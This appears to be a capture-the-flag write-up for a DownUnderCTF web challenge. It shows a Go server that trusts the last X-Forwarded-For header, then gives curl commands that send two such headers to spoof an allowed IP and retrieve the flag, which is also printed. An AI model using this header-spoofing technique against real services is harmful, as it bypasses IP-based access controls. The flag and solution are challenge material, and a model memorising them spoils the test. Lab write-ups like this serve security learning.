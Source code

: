 # actually-proxed
> Still cool haxxorz only!!! Except this time I added in a reverse proxy for extra security. Nginx and the standard library proxy are waaaayyy too slow (amateurs). So I wrote my own :D

## About the Challenge
We got a source code and a website. Here is the content of the source code

```go
package main

import (
	"flag"
	"fmt"
	"log"
	"net/http"
	"os"
	"strings"
)

var (
	port = flag.Int("port", 8081, "port to listen on")
)

func main() {

	flag.Parse()

	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		xff := r.Header.Values("X-Forwarded-For")

		ip := strings.Split(r.RemoteAddr, ":")[0]

		if xff != nil {
			ips := strings.Split(xff[len(xff)-1], ", ")
			ip = ips[len(ips)-1]
			ip = strings.TrimSpace(ip)
		}

		// 1337 hax0rz 0nly!
		if ip != "31.33.33.7" {
			message := fmt.Sprintf("untrusted IP: %s", ip)
			http.Error(w, message, http.StatusForbidden)
			return
		} else {
			w.Write([]byte(os.Getenv("FLAG")))
		}
	})

	log.Printf("Listening on port %d", *port)
	log.Fatal(http.ListenAndServe(fmt.Sprintf(":%d", *port), nil))
}
```

To obtain the flag, we need to set the IP to `31.33.33.7`. And as you can see, the website also allow a header called `X-Forwarded-For`

## How to Solve?
If I provided `X-Forwarded-Header` like this

```bash
curl "http://actually.proxed.duc.tf:30009/" -H "X-Forwarded-For: 127.0.0.1"
```

The output will be like this


[Image extracted text: daffainfoddapos:
$
curl "http://actually.proxed. duc.tf:30009/"
~H
"X-Forwarded-For:
127.0.0.1"
untrusted
IP:
10.152.0.21]


If we provide `X-Forwarded-For` header again (So, later there will be 2 `X-Forwarded-For` headers in 1 HTTP request). The second header will affect the `r.RemoteAddr`. And the final command will be like this

```bash
curl "http://actually.proxed.duc.tf:30009/" -H "X-Forwarded-For: 127.0.0.1" -H "X-Forwarded-For: 31.33.33.7"
```


[Image extracted text: daffainfo@dapOs:~$ curl "http://actually.proxed .duc.tf:30009/"
~h
"X-Forwarded-For:
127
0.0.1"
~h
"X-Forwarded-For:
31.3
3.33
7"
DUCTF{yOur_c0d3_15_n07_b3773r_7hun_7h3_574ndurd_Llb}daffainfo@dapos:~$]


```
DUCTF{y0ur_c0d3_15_n07_b3773r_7h4n_7h3_574nd4rd_l1b}
```